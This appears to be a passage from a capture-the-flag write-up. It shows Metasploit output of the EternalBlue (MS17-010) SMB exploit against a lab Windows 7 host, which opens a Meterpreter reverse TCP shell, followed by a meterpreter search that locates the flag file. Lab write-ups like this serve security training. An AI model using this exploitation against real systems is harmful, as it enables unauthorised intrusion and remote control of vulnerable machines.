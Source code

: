 ```bash 
exploit
[*] Started reverse TCP handler on 10.48.68.45:4444 
[*] 10.48.144.53:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.48.144.53:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.48.144.53:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.48.144.53:445 - The target is vulnerable.
[*] 10.48.144.53:445 - Connecting to target for exploitation.
[+] 10.48.144.53:445 - Connection established for exploitation.
[+] 10.48.144.53:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.48.144.53:445 - CORE raw buffer dump (42 bytes)
[*] 10.48.144.53:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.48.144.53:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.48.144.53:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.48.144.53:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.48.144.53:445 - Trying exploit with 12 Groom Allocations.
[*] 10.48.144.53:445 - Sending all but last fragment of exploit packet
[*] 10.48.144.53:445 - Starting non-paged pool grooming
[+] 10.48.144.53:445 - Sending SMBv2 buffers
[+] 10.48.144.53:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.48.144.53:445 - Sending final SMBv2 buffers.
[*] 10.48.144.53:445 - Sending last fragment of exploit packet!
[*] 10.48.144.53:445 - Receiving response from exploit packet
[+] 10.48.144.53:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.48.144.53:445 - Sending egg to corrupted connection.
[*] 10.48.144.53:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.48.144.53
[*] Meterpreter session 2 opened (10.48.68.45:4444 -> 10.48.144.53:49163) at 2025-11-01 06:14:19 +0000
[+] 10.48.144.53:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.48.144.53:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.48.144.53:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

*Since we did not specify the payload it used `meterpreter reverse tcp` as the default which gives us access to the shell.*

*We can search for the flag by:*

```bash
search -f flag.txt
```

```bash
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\Jon\Documents\flag.txt  15            2021-07-15 03:39:25 +0100
```
